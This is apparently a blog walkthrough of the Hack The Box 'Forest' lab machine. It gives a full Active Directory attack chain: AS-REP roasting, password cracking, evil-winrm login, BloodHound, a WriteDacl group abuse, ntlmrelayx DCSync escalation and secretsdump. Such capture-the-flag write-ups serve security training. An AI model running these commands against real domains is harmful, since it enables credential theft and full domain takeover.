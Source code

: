 ```yaml
---
layout: post
title:  Hack The Box - Forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/forest/forest.png)  
forest is a easy machine created by [egre55](https://www.hackthebox.eu/home/users/profile/1190) & [mrb3n](https://www.hackthebox.eu/home/users/profile/2984)  

# ENUM  
### nmap   
>nmap -sC -Pn -sV -T4 10.10.10.161  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

Nmap gives me the domain htb.local  
Now I need usernames to try use [impacket](https://github.com/ifconfig-me/impacket)  

### enum4linux  
[enum4linux](https://github.com/CiscoCXSecurity/enum4linux) 10.10.10.161  
enum4linux shows a list of users  
![user](/assets/img/forest/forest1.png)  

# exploit  

Now I can use impacket's GetNPUser.py  
### impacket  
./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass  
Impacket found the hash of svc-alfresco user  
![hash](/assets/img/forest/forest15.png)  
John will help me to crack it  
john -w=/usr/share/wordlists/rockyou.txt hash.as  
![pass](/assets/img/forest/forest3.png)  

[evil-winrm](https://github.com/Hackplayers/evil-winrm) to acess the machine  
./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco  
![shell](/assets/img/forest/forest4.png)    
# Privilege Escalation  
### bloodhound  
The hound  
./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all  
![bloodHound](/assets/img/forest/forest5.png)  
Just zip all the .json file and send to bloodhound  
svc-alfresco is member of [Account Operators](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11))  
![group](/assets/img/forest/forest6.png)  

![exchange1](/assets/img/forest/forest7.png) 
And exchange windows permissons group has WriteDacl 
![exchange2](/assets/img/forest/forest8.png)  
![writDacl](/assets/img/forest/forest9.png)  

If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack  
### impacket  
net group "Exchange Windows Permissions" svc-alfresco /add  
![netGroup](/assets/img/forest/forest10.png)  
to add svc-alfresco in the group  
and impacket's ntlmrelayx.py  
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco  
Logged as svc-alfresco in localhost  
![localhost](/assets/img/forest/forest11.png)  
and..  
![ntlmrelayx](/assets/img/forest/forest12.png)  
Ready for secretsdump  
![secretsDump](/assets/img/forest/forest13.png)  
Evil again as admin  
![evilAdmin](/assets/img/forest/forest14.png)  
